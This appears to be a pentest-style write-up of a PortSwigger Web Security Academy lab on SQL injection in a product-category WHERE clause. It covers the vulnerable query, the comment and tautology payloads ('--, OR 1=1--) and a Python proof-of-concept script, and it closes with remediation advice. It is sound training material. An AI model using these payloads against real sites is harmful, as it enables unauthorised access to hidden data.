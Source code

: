 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

---

## Executive Summary

During a controlled assessment of the target e-commerce application, we identified a **SQL injection vulnerability in the `WHERE` clause** of the product-listing endpoint. By manipulating the `category` URL parameter, we were able to bypass the application’s release filter and ultimately enumerate the entire `products` table—including items the business intended to keep hidden. Left unresolved, an attacker could extract sensitive business data or pivot to more destructive actions (e.g., authentication bypass, data tampering).

---

## Technical Details

| Item                        | Detail                                                                                                             |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| **Vulnerability class**     | SQL Injection – Boolean-based (string termination + inline comment)                                                |
| **Affected parameter**      | `category` (GET)                                                                                                   |
| **Database flavor**         | MySQL (confirmed by syntax behaviour)                                                                              |
| **Lab reference**           | PortSwigger Web Security Academy – *SQL injection vulnerability in WHERE clause allowing retrieval of hidden data* |
| **Difficulty rating (lab)** | Apprentice                                                                                                         |
| **Proof-of-concept script** | `script.py` (Python 3, `requests` library)                                                                         |

---

### 1  Understanding the Baseline Query

The application constructs its catalogue page with the following server-side query:

```sql
SELECT * FROM products WHERE category = 'Pets AND released = 1
```

* `category` is **unsafely concatenated** from the URL.
* `released=1` is intended to hide unreleased items.

---

### 2  Establishing Normal Behaviour

**Action** – Browse to `/?category=Pets`
**Observation** – Page renders **three** pet-related products (expected baseline).

---

### 3  Neutralising the `released` Filter (Inline Comment)

**Payload** – `Pets'--`
**URL-encoded** – `Pets%27--`

Resulting query:

```sql
SELECT * 
FROM   products 
WHERE  category = 'Pets'--' AND released = 1;
```

* Everything after `--` is a comment.
* The stray closing quote (`'`) is safely ignored inside the comment.

**Outcome** – **Four** products returned ⇒ filter successfully bypassed.

---

### 4  Enumerating All Products (Boolean 1 = 1)

**Payload** – `Pets' OR 1=1--`
**URL-encoded** – `Pets%27%20OR%201%3D1--`

Injected query:

```sql
SELECT * 
FROM   products 
WHERE  category = 'Pets' OR 1=1--' AND released = 1;
```

* `1=1` is always true, so the predicate matches every row.
* `released` condition remains commented.

**Outcome** – **All** products displayed, including unreleased SKUs.

---

### 5  Automated Proof of Concept

```python
"""
script.py – PoC for SQLi in `category` parameter
"""
import requests, urllib.parse

LAB_URL = "https://<lab-id>.web-security-academy.net"
s = requests.Session()

payload = "Pets' OR 1=1--"
encoded = urllib.parse.quote(payload, safe='')
r = s.get(f"{LAB_URL}/?category={encoded}", timeout=10)

print(f"HTTP {r.status_code}")
print(f"Returned products: {r.text.count('<li class=\"product\">')}")
```

Running the script confirms the manual findings: the response contains every product row.

---

## Impact

| Risk                                 | Explanation                                                                                                                             |
| ------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------- |
| **Sensitive data disclosure**        | Internal-only SKUs, future product lines, or pricing strategies could leak.                                                             |
| **Privilege escalation vector**      | SQLi often allows UNION-based exfiltration, credential dumping, or even SSH key harvesting if `LOAD_FILE`/`INTO OUTFILE` are permitted. |
| **Regulatory & reputational damage** | Exposure of confidential catalogue data can lead to competitive disadvantage and potential violation of disclosure obligations.         |

Likelihood: **High**  Impact: **Medium–High**  Overall risk: **High**

---

## Recommended Remediation

1. **Use parameterised queries / prepared statements** for *all* SQL interactions.
2. Implement **server-side allow-lists** (e.g., validate `category` against canonical IDs rather than free text).
3. Employ a **Web Application Firewall (WAF)** rule set tuned for SQLi signatures as a compensating control.
4. **Regression test** using automated scanners plus manual verification before deployment.

> *After remediation, re-run the PoC to confirm the injected payloads return identical product counts to the baseline.*

---

## Conclusion

The identified SQL injection stems from direct string concatenation of user input in the `WHERE` clause. By adding a comment marker (`--`) and a tautology (`OR 1=1`), we demonstrated full disclosure of hidden product data and showed how an attacker could easily expand this foothold. Implementing prepared statements and rigorous input validation will eliminate this vulnerability.

Please reach out if further clarification or live demonstration is required.

---
